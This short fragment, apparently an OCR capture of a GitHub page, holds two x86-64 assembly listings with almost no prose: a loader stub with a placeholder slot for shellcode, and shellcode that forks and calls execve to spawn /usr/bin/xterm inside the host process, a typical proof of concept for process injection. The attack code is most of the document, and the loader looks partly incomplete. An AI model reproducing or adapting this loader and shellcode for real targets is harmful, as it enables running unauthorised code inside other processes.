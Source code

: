 ```asm
use64

start:
    lea rsi, [rsp - 0x4170];
    push rax
    pop rdi
    add rdi, loader_size
    mov rcx, 0x800
    rep movsb
    nop

payload:
    ; Here the shellcode is to be

loader_size = $ - start
```

The shellcode is executed. Its first part is:

```asm
use64

start:
    ; sys_fork
    mov rax, 58
    syscall

    test rax, rax
    jnz continue_process_execution

    ; Initialize argv
    lea rsi, [cmd]
    mov [argv], rsi

    ; Initialize envp
    lea rsi, [env]
    mov [envp], rsi

    ; sys_execve
    lea rdi, [cmd]
    lea rsi, [argv]
    lea rdx, [envp]
    mov rax, 59
    syscall

...

cmd     db '/usr/bin/xterm', 0
env     db 'DISPLAY=:0.0', 0
argv    dq 0, 0
envp    dq 0, 0
```
